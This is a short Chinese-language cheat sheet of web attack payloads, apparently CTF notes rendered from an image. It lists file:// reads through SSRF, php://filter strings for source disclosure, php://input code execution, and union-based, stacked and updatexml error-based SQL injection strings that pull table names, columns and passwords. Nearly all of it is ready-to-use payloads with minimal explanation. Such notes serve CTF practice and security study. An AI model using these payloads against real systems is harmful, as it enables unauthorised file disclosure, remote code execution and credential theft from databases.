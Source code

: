 ### file://

条件:存在ssrf curl漏洞触发

file:///var/www/html/flag

### php://

### php://filter读取源码

```
?file=php://filter/read=convert.base64-encode/resource=index.php
?action=php://filter/read=string.toupper|string.rot13/resource=index.php
?action=php://filter/read=convert.iconv.UCS-2LE.UCS-2BE/resource=index.php
```

### php://input执行代码

* 条件:allow\_url\_include 为 on ，可以访问请求的原始数据的只读流, 将post请求中的数据作为 PHP代码执行。当传入的参数作为文件名打开时，可以将参数设为 php://input ,同时post想设置的文件内容，php执行时会将post内容当作文件内容。
* 格式：

```
GET: ?text=php://input
POST : xxxx
```

### SQL注入思路

* 字符型还是整数型
* 是否为堆叠注入

> show databases; 获取数据库名 show tables; 获取表名 show columns from `table_name`; 获取列名 例子：\
> 1';show tables;# 1';show columns from `table_name`;#

### SQL手工注入语句

```
1' union select 1,database(),3# 
爆出数据库 
1' union select 1,database(),group_concat(table_name) from information_schema.tables where table_schema=database()#
爆出表名 geekuser,l0ve1ysq1
1' union select 1,database(),group_concat(column_name) from information_schema.columns where table_name='l0ve1ysq1'#
爆出字段名 id,username,password
1' union select 1,database(),group_concat(id,username,password) from l0ve1ysq1 #
爆出字段内容
报错注入语句
               1 and updatexml(1,concat(0,database(),0,user(),0,@@datadir),1)#
?username=admin%27or(updatexml(1,concat(0x7e,(SELECT(database())),0x7e),1))%23
?username=admin%27or(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like(database())),0x7e),1))%23
?username=admin%27or(updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('H4rDsq1')),0x7e),1))%23
?username=admin%27or(updatexml(1,concat(0x7e,(select(password)from(H4rDsq1)),0x7e),1))%23
?username=admin%27or(updatexml(1,concat(0x7e,(select(left(password,30))from(H4rDsq1)),0x7e),1))%23
right()
```

